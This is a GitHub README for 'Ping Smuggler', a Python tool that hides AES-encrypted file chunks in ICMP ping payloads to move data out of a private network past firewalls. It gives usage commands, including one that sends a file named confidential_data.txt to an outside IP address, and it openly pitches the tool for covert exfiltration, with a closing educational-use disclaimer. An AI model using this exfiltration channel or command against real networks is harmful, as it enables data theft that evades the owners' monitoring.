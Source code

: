 # Ping Smuggler

Ping Smuggler is a Python tool designed to exfiltrate data from a private network by sending encrypted payloads
disguised as ICMP ping packets. This technique can be used to bypass firewalls that allow ICMP ping traffic while
maintaining a covert channel for data transmission.

## Overview

This repository contains three Python scripts:

1. **Sender Script (sender.py):**
    - Reads a text file and encrypts its contents into chunks.
    - Sends the encrypted chunks as ICMP payloads to a specified destination IP address.
c
2. **Receiver Script (receiver.py):**
    - Listens for incoming ICMP packets and captures them.
    - Decrypts the encrypted payloads contained within the ICMP packets.
    - Reconstructs the original text file from the decrypted chunks.

3. **Key Generator Script (key_generator.py):**
    - Generates a random encryption key for use with the sender and receiver scripts.
    - The key must be shared between the sender and receiver to encrypt and decrypt the data.

## Working Principle

Ping Smuggler utilizes the following approach to exfiltrate data:

1. **Encryption and Transmission (Sender Script):**
    - The sender script encrypts the data from a text file using AES encryption.
    - The encrypted data is split into chunks, and each chunk is sent as the payload of an ICMP ping packet to the
      specified destination IP address.

2. **Decryption and Reconstruction (Receiver Script):**
    - The receiver script captures the ICMP ping packets containing the encrypted payloads.
    - It decrypts the encrypted payloads using the same AES key.
    - Finally, it reconstructs the original text file from the decrypted chunks.

### Usage

### Sender Script (sender.py)

```bash
python sender.py <file_path> <destination_ip> <key>
```

- <file_path>: Path to the text file to be exfiltrated.
- <destination_ip>: IP address of the receiving computer outside the private network.
- <key>: Encryption key (16, 24, or 32 bytes) for AES encryption.

### Receiver Script (receiver.py)

```bash
python receiver.py <key> <output_cap_file> <output_text_file>
```

- <key>: Encryption key (must match the key used by the sender script).
- <output_cap_file>: Path to store the captured ICMP packets (in .cap format).
- <output_text_file>: Path to store the reconstructed text file.

### Example

## Sender Script

```bash
python sender.py confidential_data.txt 203.0.113.5 top_secret_key
```

## Receiver Script

```bash
python receiver.py top_secret_key received_packets.cap received_text.txt
```

### Usage Scenario

Ping Smuggler can be utilized in scenarios where ICMP ping traffic is allowed through a firewall, providing a covert
channel for exfiltrating sensitive data from a private network. By disguising encrypted data as ICMP ping payloads, Ping
Smuggler enables the transfer of data without raising suspicion or triggering firewall rules.

### Diagram

```lua
   Private Network            Firewall            Outside Network
+-------------------+    +-----------------+    +-------------------------+
|                   |    |    Firewall     |    |                         |
|   Sender          +--->+                 +--->+    Receiver             |
|                   |    |   (Allowing     |    |                         |
+-------------------+    |   ICMP Ping)    |    +-------------------------+
     Encrypts            +-----------------+            Decrypts
     Payloads                                           Payloads
```

In this diagram, Ping Smuggler bypasses the firewall by sending encrypted payloads disguised as ICMP ping packets,
allowing for the exfiltration of data from the private network to the outside network.

### Dependencies

- Python 3.x
- scapy
- cryptography

```bash
pip install -r requirements.txt
```

### Disclaimer

Please use Ping Smuggler responsibly and only in accordance with applicable laws and regulations. Unauthorized or
malicious use of this tool may result in legal consequences.
The authors of this tool are not responsible for any misuse or damage caused by Ping Smuggler.
This tool is intended for educational and research purposes only.
